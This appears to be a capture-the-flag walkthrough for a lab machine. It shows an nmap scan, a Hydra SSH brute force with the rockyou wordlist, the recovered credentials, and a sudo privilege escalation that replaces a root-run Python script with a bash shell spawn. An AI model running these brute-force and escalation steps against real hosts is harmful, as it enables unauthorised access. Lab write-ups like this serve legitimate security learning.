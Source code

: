 
---

# 🛠️ Step-by-Step Walkthrough

## 1. Nmap Scan Results 🔍
Run the following command to initiate an Nmap scan:

```bash
nmap -sC -sV -Pv -vv [IP]
```

![Nmap Scan Result](https://prod-files-secure.s3.us-west-2.amazonaws.com/233b5bad-d5f7-427b-9519-a185de520345/fd70a3be-c66f-49c3-978c-b2fb332b9f3b/image.png)

---

## 2. Web Enumeration 🌐
We found some interesting results during directory busting.

### Directory Findings:
- **robots.txt** contains:
  
    ```text
    User-agent: rockyou 
    Disallow: /
    ```

- The webpage also lists three users, with one being particularly noteworthy: **melodious**.

---

## 🔑 Initial Access
We attempt to brute-force SSH access for the user **melodious** using Hydra:

```bash
hydra -L users.txt -P rockyou.txt [IP] ssh -t 5
```

🎉 **Success!** We retrieved valid SSH credentials:

```bash
meliodas:iloveyou1
```

---

## 🚀 Privilege Escalation
After logging in via SSH, we investigate further for privilege escalation possibilities:

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

We found that **melodious** can execute `bak.py` as root. However, the file is protected and cannot be edited.

### 📝 Solution:
We delete the original file and create our own malicious version:

```bash
meliodas@ubuntu:~$ rm bak.py
meliodas@ubuntu:~$ echo "import pty; pty.spawn('/bin/bash')" > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py
```

---

## 🎉 Root Access Achieved!
We now have root access:

```bash
root@ubuntu:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

**Mission Accomplished!** 🚀 Another machine successfully rooted!

---

This more formatted version adds visual appeal and structure, making it easy to read and follow!
